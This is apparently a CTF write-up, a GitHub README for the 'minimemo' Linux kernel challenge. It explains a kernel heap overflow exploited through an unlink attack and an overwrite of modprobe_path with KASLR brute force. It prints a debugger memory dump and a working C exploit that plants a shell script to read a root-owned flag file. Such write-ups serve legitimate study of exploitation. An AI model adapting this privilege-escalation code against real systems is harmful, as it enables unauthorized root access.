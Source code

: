 # minimemo
I solved kernel exploit challenge for the first time.  
I'm so glad, thanks to author @ptrYudai.  
He always give us good tasks.  

## TLDR
### Vulnerability
* buffer overflow on kernel heap
### How to attack
* unlink attack
* overwrite modprobe\_path

## Challenge
### Description
Linux kernel security function
* KASLR  : Enable
* KPTI   : Disable
* SMEP   : Disable
* SMAP   : Disable

Linux 5.14.3
### Exploit 
I solved this challenges with brute force attack(3bit + a).  
So my solution was not smart.  

We can overwrite "fd" member of struct notelist\_t, but with value of "id" member.  
When the most lowest bytes of "id" is proper, we cana link user land data to linked list, because SMAP is disable.  
If it can be, we can get the address of the kernel heap address and the kernel module addresss, and do AAW via user land data.  
But we cannot get the kernel base address.  

See around the kernel module address, there are some addresses which based on the kernel base address.  
* memory dump around global variable top(kernel module address = 0xffffffffc006b000)
```
wndbg> x/20gx 0xffffffffc006b000+0x2100
0xffffffffc006d100:     0x0000000000000000      0x0000000000000000
0xffffffffc006d110:     0x0000000000000000      0xffffffffc006d100  <- top.fd
0xffffffffc006d120:     0xffffffffc006d100      0x0000000000000000  <--- top.bk
0xffffffffc006d130:     0x0000000000000000      0x0000000000000000
0xffffffffc006d140:     0x0000000000000000      0xffffffffb72a9e80  <- kernel base address + ????
0xffffffffc006d150:     0xffffffffb72a9e80      0x6f6d656d696e696d  <--- kernel base address + ????
0xffffffffc006d160:     0x0000000000000000      0x0000000000000000
0xffffffffc006d170:     0x0000000000000000      0x0000000000000000
0xffffffffc006d180:     0x0000000000000000      0x0000000000000000
0xffffffffc006d190:     0xffff922e81339600      0xffff922e811191e0
```

I overwrote the lowest 3 bytes of these address with offset of modprobe\_path. To success this attack, we need to conqure 3bit brute force(It is caused by KASLR).  

A part of exploit
```c
int dev_fd;

long create() 
{
	long id;
	request_t req;
	id = ioctl(dev_fd, CMD_NEW, &req);
	if(id < 0)
		err_exit("[!] ERROR CMD_NEW\n");
	printf("[+] CMD_NEW: id = 0x%lx\n", id);
	return id;
}

void edit(request_t* req)
{
	long ret;
	ret = ioctl(dev_fd, CMD_EDIT, req);
	if(ret < 0)
		err_exit("[!] ERROR CMD_EDIT\n");
	printf("[-] CMD_EDIT DONE\n");
	return;
}

void delete(int id)
{
	long ret;
	request_t req;
	req.id = id;

	ret = ioctl(dev_fd, CMD_DEL, &req);
	if(ret < 0)
		err_exit("[!] ERROR CMD_DEL\n");
	printf("[-] CMD_DEL DONE\n");
	return;
}

int idlist[0x100] = {0};
int off_list = 0;
int top = 0;

long addr_module;
long addr_heap;
long addr_kernel;
long kernel_base;

int main(){
	request_t req;
	notelist_t notelist;
	notelist_t notelist_sub;
	int id, i ;
	int offset = -1;
	int padding;
	dev_fd = open("/dev/memo", O_RDWR);
	if(dev_fd < 0)
		err_exit("open error");

	system("echo -ne '\\xff\\xff\\xff\\xff' > /tmp/badbin");
	system("echo -ne '#!/bin/sh\nchmod 777 /root/flag.txt && cp /root/flag.txt /tmp/flag' > /tmp/km2.sh");
	system("chmod +x /tmp/km2.sh /tmp/badbin");
	puts("[+] START");
	
	memset(&notelist, 0, sizeof(notelist_t));
	memset(req.data, 0x41, 20);
	req.size = 20;

	for(i = 0; i < 5; i++){
		id = create();
		req.id = id;
		edit(&req);
		idlist[off_list] = id;
		off_list++;
	}
	
	while(1) {
		id = create();
		req.id = id;
		edit(&req);
		idlist[off_list] = id;
		off_list++;
		//id = (id & 0x3f);
		//if(id >= 0x8 && id <= 0x14) {
		id = (id & 0xff);
		if(id >= 0xc8 && id <= 0xd4) {
			offset = off_list-1;
			break;
		}
	}

	for(i = 0;i < 5; i++){
		id = create();
		req.id = id;
		edit(&req);
		idlist[off_list] = id;
		off_list++;
	}

	req.id = idlist[offset];
	req.size = 21;
	edit(&req);

	req.id = 0x41414141;
	padding = (0x14-(idlist[offset] & 0x3f));
	req.size = 8+padding;
	memset(req.data, 0x41, padding);
	*((long*)&req.data[padding]) = &notelist;
	edit(&req);

	
	while(notelist.bk == 0){
		delete(idlist[--off_list]);	
	}
	addr_module = notelist.bk;	
	printf("[+] top = %lx\n", (long)notelist.bk);
	id = create();
	addr_heap = notelist.bk;
	printf("[+] heap = %lx\n", (long)notelist.bk);
	
	notelist.note.id = 0x42424242;
	notelist.fd = addr_module+0x44;
	
	req.size = 3;
	req.id = 0;
	*((long*)req.data) = 0x8367c0-4; // 3bit brute force
	
	edit(&req);
	
	notelist.fd = addr_module+0x2c;
	req.size = 4;
	req.id = 0;
	*((long*)req.data) = 0x43434343;
	
	edit(&req);
	  
	notelist.fd = addr_module+0x30;
	req.size = 12;
	req.id = 0;
	strcpy(req.data, "/tmp/km2.sh\x00");
	edit(&req);
	
	puts("[+] END");
	system("/tmp/badbin");
	
	return 0;
}
```

My exploit code is [k\_exp.c](https://github.com/kam1tsur3/2021_CTF/blob/master/asis/pwn/minimemo/exploit/k_exp.c).

## Reference

twitter: @kam1tsur3
